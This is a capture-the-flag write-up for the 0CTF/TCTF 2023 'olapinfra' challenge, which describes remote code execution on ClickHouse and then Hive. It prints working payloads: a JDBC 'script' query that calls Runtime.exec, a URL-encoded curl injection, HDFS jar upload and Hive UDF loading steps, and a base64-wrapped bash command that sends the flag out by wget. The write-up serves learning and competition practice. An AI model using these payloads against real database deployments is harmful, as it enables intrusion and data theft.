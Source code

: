 # 0CTF/TCTF 2023 - olapinfra

## Challenge Description

Behold! The epitome of stylish Internet infrastructure! Trailing closely behind the likes of LLM, Cloud Native, Web3, low-code platforms, and anything else you can imagine!

(After the instance successfully runs, the service is still in the process of initialization. You may need to wait for >= 1 min before you can attack it. So run it locally before you can get the flag.)


[olapinfra-69e73ebe082712b26f2a3e63b3d323f17e0a9cbc4647df85f51bd672b67ca168.tar.xz](olapinfra-69e73ebe082712b26f2a3e63b3d323f17e0a9cbc4647df85f51bd672b67ca168.tar.xz)

## Writeup

It is a Online Analytical Processing (OLAP) environment, consist of a PHP frontend, Clickhouse, Hive, Mysql.

The target is to get RCE on Clickhouse (Part 1) and Hive (Part 2).

### Part 1 - Clickhouse 

Clickhouse is a really powerful and convenient database for big data stuffs, and do have many integrations to perform IO. Although *most* of the clickhouse functions restrict file operation to `user_files`, @viky discovered that the the JDBC bridge consist of a `script` which could run any Javascript on Nashorn / script engine, which we can take advantage to RCE on the clickhouse container.

```sql
SELECT * FROM jdbc('script', 'js', 'new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\'/readflag\').getInputStream())).readLine()')
```

Therefore the payload could be
```sh
curl "127.0.0.1:8080?query=0%20UNION%20ALL%20SELECT%20results%2C%272%27%2C%273%27%2C%274%27%20FROM%20jdbc%28%27script%27%2C%20%27js%27%2C%20%27new%20java%2Eio%2EBufferedReader%28new%20java%2Eio%2EInputStreamReader%28java%2Elang%2ERuntime%2EgetRuntime%28%29%2Eexec%28%5C%27%2Freadflag%5C%27%29%2EgetInputStream%28%29%29%29%2EreadLine%28%29%27%29%20FORMAT%20JSON%20%23"
```

### Part 2 - Hive

The clickhouse server is isolated from the internet, so we can't get a reverse shell and we're restricted to use the PHP frontend to run commands. What can we do? The plan is as follow:

- RCE clickhouse server (part 1)
- Upload a UDF jar to HDFS
- Load the jar and do RCE on Hive by invoking Hive SQL 

With ability to RCE the clickhouse server, we can run DDL on Clickhouse simply by using `clickhouse-client` or `curl` (https://clickhouse.com/docs/en/interfaces/http), granting us full access to the clickhouse server.

Not sure why but the server thread blocks when i use `clickhouse-client` to execute my payload. As clickhouse is relatively new so i assume this is normal..

```
[2023-12-09 15:59:22] [WARNING] Thread Thread[vert.x-eventloop-thread-0,5,main]=Thread[vert.x-eventloop-thread-0,5,main] has been blocked for 15240 ms, time limit is 15000 ms 
```

So lets use `curl` to run any clickhouse SQL command with the web interface instead. It would be something like:

```
# connect to localhose:8123 and run SQL command `SELECT 123`
echo "select 123" | curl 0:8123 -s -d @-
```

With access to clickhouse SQL, we can write any file to the HDFS used by Hive! The Clickhouse provides lots of integration, one of the integration allows us to read/write HDFS file directly. It would be something like:

```sql
-- create a file '/tmp/readflag.jar' on hdfs
CREATE TABLE jj(s String) ENGINE=HDFS('hdfs://namenode:8020/tmp/readflag.jar', 'LineAsString')

-- and write to that file
INSERT INTO jj SELECT base64Decode('AAAAAAAAA====')
```

Finally, we need to upload a Hive client and invoke the UDF using Hive SQL, something like:

```sql
CREATE FUNCTION ex as 'com.example.ReadflagUDF' using jar 'hdfs://namenode:8020/tmp/readflag.jar'
SELECT ex('/readflag')
```

Sounds good! But the reality is a bit more complicated, due to:

1. we don't have `curl` in the clickhouse-server container...
1. multithreading/multiprocessing of clickhouse invoke our shell command for about two times
1. we don't have a lightweight Hive client (beeline is Java based and would take forever to upload and probably tons of dependencies issue)
1. we need a `readflag.jar` for the UDF
1. we are attacking through the web interface, the url `query` parameter, therefore we have a char limit for each shell command

I have solve those issues by trying harder, see the [solve.sh](solve/solve.sh) for the actual solve script.

Kudos to the challenge author!

## failed attempts

### function blocked by default

```
SELECT reflect("java.lang.Runtime", "exec", concat("bash -c {echo,",base64(encode("wget \"clickhouse:8123/?query=select+'exec:$(/readflag | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g')'\" -O- -q", 'UTF-8')),"}|{base64,-d}|{bash,-i}"));
truncate table workspace_hs.out;
LOAD DATA LOCAL INPATH '/tmp/out' INTO TABLE workspace_hs.out;
```

### cannot write non-ascii
```

create external table gg (src string) 
row format delimited 
fields terminated by ' '
lines terminated by '\n' 
stored as textfile location '/tmp/tsetset.yaaa';


create external table readflagjar7 (src string) 
row format delimited 
fields terminated by ''
lines terminated by '\n' 
stored as textfile location 'hdfs://namenode:8020/tmp/readflagjar7'
TBLPROPERTIES('serialization.encoding'='windows-1252');


create external table readflagjar10 (src string) 
location 'hdfs://namenode:8020/tmp/readflagjar10';

INSERT INTO readflagjar10 SELECT decode(unbase64('UEsDBAoAAAAAAEJEiVcAAAAAAAAAAAAAAAAJAAAATU='),'UTF-8');

```

### not needed
```
add jar hdfs://namenode:8020/tmp/aaajar;
```